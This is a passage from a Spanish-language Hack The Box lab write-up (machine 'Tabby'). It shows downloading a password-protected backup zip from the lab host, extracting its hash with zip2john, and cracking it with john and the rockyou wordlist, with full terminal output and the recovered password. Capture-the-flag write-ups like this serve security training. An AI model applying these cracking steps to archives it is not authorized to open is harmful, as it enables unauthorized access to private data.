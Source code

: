 ```bash
┌──[root@parrot]─[/home/nicolasmira101/Documents/Hack-the-box/Maquinas/Tabby]
└──╼ #wget http://10.10.10.194/files/16162020_backup.zip
--2020-06-22 13:43:24--  http://10.10.10.194/files/16162020_backup.zip
Connecting to 10.10.10.194:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 8716 (8.5K) [application/zip]
Saving to: ‘16162020_backup.zip.1’

16162020_backup.zip.1             100%[============================================================>]   8.51K  --.-KB/s    in 0s      

2020-06-22 13:43:25 (67.8 MB/s) - ‘16162020_backup.zip.1’ saved [8716/8716]
```

Ahora vamos a descomprimirlo, sin embargo, nos solicita contraseña

```bash
┌─[root@parrot]─[/home/nicolasmira101/Documents/Hack-the-box/Maquinas/Tabby]
└──╼ #unzip 16162020_backup.zip 
Archive:  16162020_backup.zip
[16162020_backup.zip] var/www/html/favicon.ico password: 
```

Así que vamos a utilizar la herramienta `zip2john` para extraer el hash del archivo y posteriormente crackear este hash con `john`

```bash
┌──[root@parrot]─[/home/nicolasmira101/Documents/Hack-the-box/Maquinas/Tabby]
└──╼ #zip2john 16162020_backup.zip > backup.hash                                                                                       
16162020_backup.zip/var/www/html/assets/ is not encrypted!                                                                             
ver 1.0 16162020_backup.zip/var/www/html/assets/ is not encrypted, or stored with non-handled compression type                         
ver 2.0 efh 5455 efh 7875 16162020_backup.zip/var/www/html/favicon.ico PKZIP Encr: 2b chk, TS_chk, cmplen=338, decmplen=766, crc=282B6D
E2

┌─[root@parrot]─[/home/nicolasmira101/Documents/Hack-the-box/Maquinas/Tabby]
└──╼ #cat backup.hash 
16162020_backup.zip:$pkzip2$3*2*1*0*0*24*02f9*5d46*ccf7b799809a3d3c12abb83063af3c6dd538521379c8d744cd195945926884341a9c4f74*1*0*8*24*285c*5935*f422c178c96c8537b1297ae19ab6b91f497252d0a4efe86b3264ee48b099ed6dd54811ff*2*0*72*7b*5c67f19e*1b1f*4f*8*72*5c67*5a7a*ca5fafc4738500a9b5a41c17d7ee193634e3f8e483b6795e898581d0fe5198d16fe5332ea7d4a299e95ebfff6b9f955427563773b68eaee312d2bb841eecd6b9cc70a7597226c7a8724b0fcd43e4d0183f0ad47c14bf0268c1113ff57e11fc2e74d72a8d30f3590adc3393dddac6dcb11bfd*$/pkzip2$::16162020_backup.zip:var/www/html/news.php, var/www/html/logo.png, var/www/html/index.php:16162020_backup.zip

┌─[root@parrot]─[/home/nicolasmira101/Documents/Hack-the-box/Maquinas/Tabby]
└──╼ #john --wordlist=/usr/share/wordlists/rockyou.txt backup.hash 
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
admin@it         (16162020_backup.zip)
1g 0:00:00:04 DONE (2020-06-22 15:20) 0.2197g/s 2276Kp/s 2276Kc/s 2276KC/s adnc153..adilizinha
```
